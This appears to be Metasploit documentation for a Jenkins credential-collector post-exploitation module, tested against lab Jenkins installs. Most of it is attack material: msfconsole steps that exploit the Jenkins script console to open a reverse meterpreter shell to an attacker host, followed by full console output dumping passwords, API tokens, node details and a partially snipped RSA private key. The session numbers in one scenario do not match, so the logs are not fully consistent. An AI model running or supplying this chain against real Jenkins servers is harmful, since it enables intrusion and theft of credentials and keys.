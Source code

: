 ## Vulnerable Application

  Official Source:
[Jenkins](https://jenkins.io/download/)

This module has been verified against:

  1. Jenkins 2.67 on Ubuntu 16.04 in Docker
  1. Jenkins 2.67 on Windows 7 SP 1
  1. Jenkins 2.60.1
  1. Jenkins 2.411 Docker image
  1. Jenkins 2.410 Windows 10
  1. Jenkins 2.410 Docker image
  1. Jenkins 2.409 Docker image
  1. Jenkins 2.401.1 Docker image
  1. Jenkins 2.346.3 Docker image
  1. Jenkins 2.103 Docker image
  1. Jenkins 1.565 Docker image
  1. Jenkins 1.56

## Verification Steps

  1. Set up Jenkins to obtain a shell (use Docker for quick setup)
  1. Run `docker run -p 8080:8080 -p 50000:50000 jenkins`
  1. Use the default setup and install "suggested plugins"
  1. Create new user admin, add a user or credential (via Manage Jenkins)
  1. Start msfconsole
  1. We'll use the `jenkins_script_console` module to quickly gain a shell
  1. Do: ```use exploit/multi/http/jenkins_script_console```
  1. Do: ```set RHOST 172.17.0.1```
  1. Do: ```set RPORT 8080```
  1. Do: ```set TARGETURI /```
  1. Do: ```set USERNAME admin```
  1. Do: ```set PASSWORD or set API_TOKEN```
  1. Do: ```set TARGET 1```
  1. Do: ```set PAYLOAD linux/x86/meterpreter/reverse_tcp```
  1. Do: ```set LHOST 192.168.56.105```
  1. Do: ```exploit -j```
  1. Do: ```use post/multi/gather/jenkins_gather```
  1. Do: ```set SESSION 1```
  1. Do: ```run```
  1. You should see the saved credentials output

## Options

### SEARCH_JOBS

  This option searches through the `jobs` folder for interesting
keywords but obviously increases runtime on larger instances.

### STORE_LOOT

  This option saves interesting files and loot to disk. If set to
false will simply output data to console.

### JENKINS_HOME
  This option can be set if we want to specify where the Jenkins
data resides.

## Scenarios

**Jenkins on Windows**

```
msf post(jenkins_gather) > sessions

Active sessions
===============

  Id  Type                     Information                   Connection
  --  ----                     -----------                   ----------
  18  shell x86/linux                                        192.168.56.105:4444 -> 192.168.56.1:58828 (172.17.0.1)
  20  meterpreter x86/linux    uid=0, gid=0, euid=0, egid=0  192.168.56.105:4444 -> 192.168.56.1:58974 (172.17.0.2)
  21  meterpreter x86/windows  NT AUTHORITY\SYSTEM @ kali    192.168.56.105:4444 -> 192.168.56.101:50427 (192.168.56.101)
  23  shell x86/windows                                      192.168.56.105:4444 -> 192.168.56.101:50793 (192.168.56.101)

msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch: 
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  JENKINS_HOME                 no        Set to the home directory of Jenkins. Linux versions default to /var/lib/jenkins, but C:\ProgramData\Jenkins\.jenkins on Windows.
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user 
  tokens, SSH keys, and secrets. Interesting files will be stored in 
  loot along with combined csv output.


msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at C:\Program Files\Jenkins
[+] Credentials found - Username: user1 Password: Password123456
[+] SSH Key found! ID: 83c6a18f-6b35-420a-8534-cc505c3347b5 Passphrase: secretpassphrase123 Username: sshkey1 Description: interesting description
[+] Job Info found  - Job Name:  User: testpass Password: secretpass123
[+] Job Info found  - Job Name:  User: testpass Password: ohwowosupersecret
[+] Node Info found - Name: test Host: hostnode1.lab.local Port: 22 CredID: 972fc428-dd7c-46ea-a119-be78ae0866ad
[+] API Token found - Username: admin Token: 8a114e0fa48c1a489c39b98e94c986c8
[+] API Token found - Username: useruseruser Token: 6810c3f6ccca939ac2a8b8ac4b9de012
[*] Searching through job history for interesting bits...
[+] Job Log truffles:
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\builds\4\log:"secret is secret"
...
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:C:\Program Files\Jenkins\workspace\asdf>echo "secret is secret" 
C:\Program Files\Jenkins\jobs\asdf\lastSuccessful\log:"secret is secret"
[+] 
Creds
=====

 Username  Password           Description
 --------  --------           -----------
                                          
 testpass  secretpass123                   
 testpass  ohwowosupersecret  
 user1     Password123456     

[+] 
API Keys
========

 Username      API Tokens
 --------      ----------
 admin         8a114e0fa48c1a489c39b98e94c986c8
 useruseruser  6810c3f6ccca939ac2a8b8ac4b9de012

[+] 
Nodes
=====

 Node Name  Hostname             Port  Description   Cred Id
 ---------  --------             ----  -----------   -------
 test       hostnode1.lab.local  22    testtesttest  972fc428-dd7c-46ea-a119-be78ae0866ad

[+] SSH Key
[*]  ID: 83c6a18f-6b35-420a-8534-cc505c3347b5
[*]  Description: interesting description
[*]  Passphrase:  secretpassphrase123
[*]  Username:    sshkey1
[*] 
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAuTfL0ijR0JDLTQC092ZolnkTJGRi7YQInK/K1ZFDFc44JOSU
...snip...
7Ad+Ja6+51ECnXJIFKPj7binB6/C10YVqHh4KON3DeA6ZA7ZpUko
-----END RSA PRIVATE KEY-----

[*] Post module execution completed


```

**Jenkins 2.67 on Ubuntu 16.04**

```
msf post(jenkins_gather) > set session 20
session => 18
msf post(jenkins_gather) > info

       Name: Jenkins Credential Collector
     Module: post/multi/gather/jenkins_gather
   Platform: Linux, Windows
       Arch:
       Rank: Normal

Provided by:
  thesubtlety

Basic options:
  Name        Current Setting  Required  Description
  ----        ---------------  --------  -----------
  SEARCH_JOBS true             no        Search through job history logs for interesting keywords. Increases runtime.
  SESSION     17               yes       The session to run this module on.
  STORE_LOOT  true             no        Store files in loot (will simply output file to console if set to false).

Description:
  This module can be used to extract saved Jenkins credentials, user
  tokens, SSH keys, and secrets. Interesting files will be stored in
  loot along with combined csv output.

msf post(jenkins_gather) > run

[*] Searching for Jenkins directory... This could take some time...
[*] Found Jenkins installation at /root/.jenkins
[+] Credentials found - Username: thanksforthefish Password: whatagreatbook
[+] API Token found - Username: user1 Token: 859e1d6ee6ab85804434fa5395ab962d
[+] API Token found - Username: admin Token: 9da706c125a4b5a4c19b1f799723175c
[*] Searching through job history for interesting bits...
[+] 
Creds
=====

 Username          Password         Description
 --------          --------         -----------
 thanksforthefish  whatagreatbook

[+] 
API Keys
========

 Username  API Tokens
 --------  ----------
 admin     9da706c125a4b5a4c19b1f799723175c
 user1     859e1d6ee6ab85804434fa5395ab962d

[*] Post module execution completed
```
